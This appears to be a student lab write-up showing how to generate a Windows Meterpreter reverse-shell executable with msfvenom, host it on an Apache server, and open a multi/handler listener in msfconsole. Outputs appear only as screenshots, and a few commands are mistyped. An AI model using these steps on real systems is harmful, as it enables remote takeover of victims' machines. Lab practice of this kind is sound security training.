 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="642" height="355" alt="image" src="https://github.com/user-attachments/assets/15043968-9f5c-43e8-9205-e26214cb562f" />




Create a malicious executable file nishaj.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15-f exe > nishaj.exe```

### Output:

<img width="826" height="150" alt="image" src="https://github.com/user-attachments/assets/9166c2f7-2adc-4080-a5fd-fc4ac05835ab" />



copy the fun.exe into the apache ```/var/www/html ```folder



<img width="305" height="44" alt="image" src="https://github.com/user-attachments/assets/bbfe19b1-9487-4d4d-becc-6bc78dfcecaf" />


Start apache server ```sudo systemctl apache2 start```


<img width="266" height="43" alt="image" src="https://github.com/user-attachments/assets/97568b08-9773-4183-9f49-ef49f2ccca18" />




Check the status of apache2 ```sudo apache2 status```


<img width="778" height="264" alt="image" src="https://github.com/user-attachments/assets/935555ce-16f1-4c99-af75-d4ac39b3a518" />


Invoke msfconsole:


<img width="609" height="322" alt="image" src="https://github.com/user-attachments/assets/c9aaa4d1-c3a7-4634-b043-2b7e9c9eabef" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


<img width="805" height="270" alt="image" src="https://github.com/user-attachments/assets/0dd461c9-eac5-4577-b527-c613a69b44b9" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 

<img width="592" height="157" alt="image" src="https://github.com/user-attachments/assets/078473de-7c30-45a4-894c-e74b73a3c64c" />
